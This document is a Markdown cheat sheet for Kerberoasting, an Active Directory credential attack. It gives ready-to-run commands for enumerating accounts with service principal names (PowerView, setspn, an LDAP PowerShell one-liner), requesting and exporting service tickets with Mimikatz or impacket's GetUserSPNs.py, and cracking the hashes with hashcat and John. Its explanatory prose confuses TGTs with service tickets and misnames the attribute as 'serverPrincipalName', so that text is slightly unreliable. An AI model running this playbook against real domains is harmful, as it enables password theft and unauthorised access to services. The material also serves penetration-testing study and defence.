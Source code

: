 # Kerberoast

Send a request to a TGT for a Kerberos token, dump it from memory, crack it locally to obtain access to the target. The TGT can also be used to forge a Silver Ticket and gain access to the service machine. Vulnerable accounts need to have the flag `serverPrincipalName` set.

## Exploit

### Windows machine

Vulnerable machines in domain

```
Get-NetUser -SPN | select serviceprincipalname    //Powerview
setspn -T <domain> -Q */*                         //Builtin
```

Enumerate with LDAP Powershell module

```
$ldapFilter="(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))";$domain=New-Object System.DirectoryServices.DirectoryEntry;$search=New-Object System.DirectoryServices.DirectorySearcher;$search.SearchRoot=$domain;$search.PageSize=1000;$search.Filter=$ldapFilter;$search.SearchScope="Subtree";$results=$search.FindAll()$Results=foreach($result in $results){$result_entry=$result.GetDirectoryEntry();$result_entry|Select-Object @{Name="Username";Expression={$_.sAMAccountName}},@{Name="SPN";Expression={$_.servicePrincipalName|Select-Object -First 1}}}$Results;
```

Enumerate past remote sessions on local machine

```
klist
```

Request a Service Ticket from the target. The ticket will be stored in memory

```
Add-Type -AssemblyName System.IdentityModel;New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

Dump the SPN ticket using Mimikatz

```
privilege::debug
token::elevate
kerberos::list /export
```

### \*nix machine

Get a list of SPN users. Requires a valid user and password or NTLM hash to query the DC

```
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user>:<pass> -outputfile <file>
GetUserSPNs.py -dc-ip <DC IP> -hashes <LM>:<NT> <domain>/<user> -outputfile <file>
```

Dump TGT

```
GetUserSPNs.py <domain>/<user>:<pass> -dc-ip <DC IP> -request  #dump TGTs of current user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user> -request-user <target user> #dump TGTs of target user
```

## Crack hash

Crack the .kirbi file or hash received from impacket

```
hashcat -m 13100 --force <hashfile> <wordlist>
john --format=krb5tgs --wordlist=<wordlist> <hashfile>    #requires jumbo version
```
